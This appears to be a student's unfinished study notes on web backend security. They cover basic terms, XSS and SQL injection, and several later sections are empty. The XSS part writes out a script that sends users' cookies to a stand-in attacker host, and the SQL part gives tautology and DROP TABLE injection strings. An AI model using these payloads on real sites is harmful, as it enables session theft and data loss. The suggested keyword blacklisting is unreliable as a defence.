 ## Period-4 Security
### Securing Node/Express/REST-Backends


#### Explain basic security terms like authentication, authorization, confidentiality, integrity, SSL/TLS and provide examples of how you have used them.

##### Authentication
Authentication is the process of making sure, that somebody really is who they claims to be.
This is often done with a login.

##### Authorization
Authorization verifies what you are allowed to do.
Even though both a user and an admin are logged into the system, you would not want them to have access to the same pages.

##### Confidentiality
When sending data to another person, you want to make sure that the data reach the intended receiver, and not someone who pretends to be the receiver.
This is done by using a secure connection(SSL or TLS).

##### Integrity
When sending the data to the correct person, you want to make sure that no one is changing the data while it's on its way to the receiver.
This is done by using a secure connection(SSL or TLS).

##### SSL/TLS
SSL and TLS are both protocols that are designed to provide security when sending data over a computer network.
They ensure the secure connection by encrypting the data before it is sent, and in such a way that only the intended receiver will be able to decrypt it.


#### Explain basic security threads like: Cross Site Scripting (XSS), SQL Injection and whether something similar to SQL injection is possible with NoSQL databases like MongoDB, and DOS-attacks. Explain/demonstrate ways to cope with these problems.

##### Cross Site Scripting
Cross site scripting(XSS) is a way of an attacker to inject a script into an input field, and using that input field to send the malicious script into the server, which will the send it to other users.
That way an attacker can attack multiple users of a site.

An example could be a forum, where you can post threads, and see a list of all threads written.
If a user in the thread title names it "Javascript 101", all the users that goes to the forum will see that title in the list of threads.

The attacker can then user this to inject a javascript script into the title instead. It could be something harmless like:
`<script>alert('hi')</script>Javascript 101
Everytime someone would load the list of threads in the forum. The little script tag would be run and popup. But if the attacker instead writes something like:
`<script>
`var xmlHttp = new XMLHttpRequest();
`xmlHttp.open("GET","www.evilwebsite.com/hackerEntry?cookie="+document.cookie, false);
`xmlHttp.send();
`</script>Javascript 101

Then every time a user loads the list of threads, their cookies(Often with a sessionID) would be sent to www.evilwebsite.com, where the attacker could read the information.

There are multiple ways of making sure this is not possible, and in order to open up for xss you would often have to change defaults settings of multiple node modules.
One of the ways to prevent XSS is by sanitizing the input. To sanitize the inputs, means that we remove all charaters or strings that could be a threat. For instance we could use the HTML codes for some charaters:
< would be &lt; and > would be &gt;


##### SQL Injection
SQL injection is a technique where an attacker injects SQL commands into the inputs fields. 
Lets say we have a site with multiple users. On this site there's a search bar where you can search the users using their username.
Lets say we want all users with the username of "LarsM"
In the backend we gets the input from the input field and queries to the db:
```SQL
SELECT * FROM Users WHERE UserName = 'LarsM'
```
This would give back a list from the Users table, of users with the username of "LarsM".

But what if we instead gave it "LarsM' or '1=1"
Then we SQL would look like this:
```SQL
SELECT * FROM Users WHERE UserName = 'LarsM' or '1=1''
```
Which would give us a list of ALL users.

Or we could do "LarsM'; DROP TABLE USERS'

Which would then drop the whole users table.

Again, could sanitizing the input be a way to prevent this. You could blacklist words such as DROP TABLE and so. Or blacklist the character "'".



#### Explain, at a fundamental level, the technologies involved, and the steps required initialize a SSL connection between a browser and a server and how to use SSL in a secure way.
This


#### Explain and demonstrate ways to protect user passwords on our backends, and why this is necessary.


#### Explain about password hashing, salts and the difference between bcrypt and older (not recommended) algorithms like sha1, md5 etc.


#### Explain about JSON Web Tokens (jwt) and why they are very suited for a REST-based API
This


#### Explain and demonstrate a system using jwt's, focusing on both client and server side.


#### Explain and demonstrate use of the npm passportjs module.


#### Explain, at a very basic level, OAuth 2 + OpenID Connect and the problems it solves.
This


#### Demonstrate, with focus on security, a proposal for an Express/Mongo+Angular-seed with built in support for most of the basic security problems, SSL and ready to deploy on your favourite Cloud Hosting Service.

